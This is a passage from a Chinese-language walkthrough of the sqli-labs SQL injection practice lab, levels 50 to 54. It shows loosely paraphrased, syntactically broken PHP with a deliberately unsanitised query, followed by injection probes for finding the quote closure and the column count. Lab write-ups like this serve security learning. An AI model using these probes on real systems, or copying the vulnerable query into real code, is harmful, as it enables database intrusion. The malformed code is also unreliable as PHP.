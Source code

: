 无区别。

#### 3.4.14 Less-51

无区别。

#### 3.4.15 Less-52

无区别。

#### 3.4.16 Less-53

无区别。

### 3.5 Less54-65

#### 3.5.1 Less-54

```php
$times= 10;

if(isset($_POST['reset']))
    setcookie('challenge', ' ', time() - 3600000);

else:
    if(isset($_COOKIE['challenge']))
        $sessid=$_COOKIE['challenge'];
    else:
        $expire = time()+60*60*24*30;
        $hash = data($table,$col);
        setcookie("challenge", $hash, $expire);
    if $_GET['id']:
        $sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
    if true
        "查询结果"
    else：
       
$key = addslashes($_POST['key']);
$key = mysql_real_escape_string($key);
$sql="SELECT 1 FROM $table WHERE $col1= '$key'";
```

十次以内查出结果

判断闭合

```sql
?id=1'
?id=1'%23
```

判断字段数

```sql
?id=1'order by 3%23
?id=1'order by 4%23
```
